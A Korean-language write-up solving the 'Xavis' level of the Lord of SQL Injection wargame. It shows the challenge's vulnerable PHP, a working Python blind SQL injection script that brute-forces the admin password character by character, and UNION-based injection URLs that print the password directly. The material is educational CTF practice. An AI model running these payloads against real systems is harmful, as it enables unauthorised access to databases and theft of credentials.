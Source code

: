 # Lord of SQL Injection No.19 Xavis

Xavis 문제는 Blind SQL Injection의 탐색 범위를 늘려 결과값을 찾아낼 수 있도록 유도한 문제이다.

## 소스 코드

```php
<?php 
  include "./config.php"; 
  login_chk(); 
  dbconnect(); 
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~");
  if(preg_match('/regex|like/i', $_GET[pw])) exit("HeHe"); 
  $query = "select id from prob_xavis where id='admin' and pw='{$_GET[pw]}'"; 
  echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
  $result = @mysql_fetch_array(mysql_query($query)); 
  if($result['id']) echo "<h2>Hello {$result[id]}</h2>"; 
   
  $_GET[pw] = addslashes($_GET[pw]); 
  $query = "select pw from prob_xavis where id='admin' and pw='{$_GET[pw]}'"; 
  $result = @mysql_fetch_array(mysql_query($query)); 
  if(($result['pw']) && ($result['pw'] == $_GET['pw'])) solve("xavis"); 
  highlight_file(__FILE__); 
?>
```

```php
 if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~");
```
`$_GET`방식으로 입력받은 `pw`에 `prob`, `_`, `.`, `(`, `)`가 포함되어 있으면 `No Hack ~_~`을 출력시킨 후 문제풀이에 실패하게 된다.

```php
  if(preg_match('/regex|like/i', $_GET[pw])) exit("HeHe");
```
`regex`와 `like` 함수를 필터링시켰다.

`regex` 는 정규식과 관련된 함수인데, `regexp`, `regexp_like` 등이 있다.
`like` 함수는 이전에 `=`을 우회하기 위하여 사용한 함수이다.

#### 문제 풀이 조건

```php
if(($result['pw']) && ($result['pw'] == $_GET['pw'])) solve("xavis"); 
```

문제 내에 존재하는 `pw`값과 `$_GET` 방식으로 입력받은 `pw`값이 일피하면 문제풀이에 성공하게 된다.

## Solution

이전 문제들과는 달리 `regex`, `like` 외에는 별 다른 필터링이 되지 않았기 때문에 초반에 사용하던 기본 코드를 사용해도 좋다고 생각했다.

하지만 `pwlen`을 구하기 위해 지정했던 범위가 1~10 이였으나, 코드를 실행시켜도 찾아지는 값이 없었다.
그렇게 때문에 `pwlen`을 찾는 범위를 1~10에서 1~50으로 늘렸다.

ASCII 값을 대입하여 `pw`를 찾는 반복문의 범위도 원래는 `ord('0')`부터 `ord('z')` 로 지정해주었으나 찾아지는 값이 없어 무한루프가 돌았기 때문에 범위를 1~1000 으로 지정해주었다.

아래는 문제풀이를 하기위해 사용하였던 코드이다. 수정할 부분이 많아 문제가 많을수도 있다.

```python
import urllib.request
from urllib.parse import quote

result = ""
hex_result = "0x"
pwlen = 0
url = "http://los.eagle-jump.org/xavis_fd4389515d6540477114ec3c79623afe.php?pw="

for i in range(1, 50):
    add_url = "' or id='admin' and length(pw)={} -- ;".format(str(i))
    add_url = quote(add_url)
    new_url = url + add_url
    re = urllib.request.Request(new_url)
    re.add_header("User-Agent", "Mozilla/5.0")
    re.add_header("Cookie", "PHPSESSID=67rse542trun7sp0rtrd5pp612")
    res = urllib.request.urlopen(re)

    print("Finding Password Length.. => {}".format(i))

    if str(res.read()).find("Hello admin") != -1:
        pwlen = i
        print("Found it! Password Length => {}".format(pwlen))
        break

for i in range(1, pwlen + 1):
    for j in range(1, 1000):
        if i == 2 or i == 4:
            j += 40
        add_url = "' || id='admin' and ord(MID(pw,{0},1))='{1}' -- ;".format(i, j)
        print("Matching.. - [{0}] // Result = [{1}] // Hex_Result = [{2}]".format(chr(j), result, hex_result))
        add_url = quote(add_url)
        new_url = url + add_url
        re = urllib.request.Request(new_url)

        re.add_header("User-Agent", "Mozilla/5.0")
        re.add_header("Cookie", "PHPSESSID=67rse542trun7sp0rtrd5pp612")

        res = urllib.request.urlopen(re)

        if str(res.read()).find("Hello admin") != -1:
            char = chr(j)
            hex_result += str(hex(j)).replace('0x', '')
            result += chr(j)
            print("Found it!! => " + result)
            break

print("Finished Searching.")
print("Password : {0} (Hex : {1})".format(result, hex_result))
```

코드를 실행시키면 `pwlen`은 40이 나오며, `pw`값은 `¸ùÅ°ÆÐÄ¡¤»`로 괴상한 값이 나오게 된다.
이 `pw`를 그대로 URL에 대입하거나 Hex 값으로 변환한 `0xb8f9c5b0c6d0c4a1a4bb`를 `pw`값으로 넣어주면 문제 풀이에 성공하게 된다.

---

## 추가 문제 풀이

`Blind SQL Injection`을 하지 않고 `xavis` 문제를 해결하는 방법을 추가합니다.

`xavis` 문제의 url에 직접 `union`과 변수를 이용하여 `pw`값을 출력시키는 방법이 존재한다.

```
http://los.eagle-jump.org/xavis_****.php
```

위의 URL에 `?pw='`로 `pw`문을 임의로 닫은 후

```
http://los.eagle-jump.org/xavis_****.php?pw='
```

`or`을 이용하여 임의로 `query`문을 대입한다.

`db` 내에 있는 `pw` 값을 변수에 담아 저장한 후 `union`을 통해 추가한다.

```
http://los.eagle-jump.org/xavis_****.php?pw=' or (select @a:=pw) union select @a -- ;
```

`a` 라는 변수에 `pw` 값을 대입한 후 `union`을 통해 `pw` 값을 출력시키게 한다.

위와 같이 `Union SQL Injection` 을 진행해보면,

```
Hello fnfmfkalfnfmffnfmf
```

와 같이 `db`의 `pw` 값이 출력되는 것을 확인할 수 있다.

이는 현재 조건문을 걸어주지 않고 변수에 담은 임의의 값이기 때문에, `where` 절을 이용하여 `id`가 `admin`일 때의 `pw` 값을 변수에 담아 출력하도록 하면 된다.

```
http://los.eagle-jump.org/xavis_****.php?pw=' or (select @a:=pw where id='admin') union select @a -- ;
```

위처럼 `Union SQL Injection`을 진행하면,

```
Hello ¸ùÅ°ÆÐÄ¡¤»
```
을 출력하게 되므로, `id`가 `admin`일 때의 `pw` 값은 `¸ùÅ°ÆÐÄ¡¤»` 임을 알 수 있게 된다.

```
http://los.eagle-jump.org/xavis_****.php?pw=¸ùÅ°ÆÐÄ¡¤»
```

`pw`에 `¸ùÅ°ÆÐÄ¡¤»` 을 대입하면 문제 풀이에 성공하게 된다.
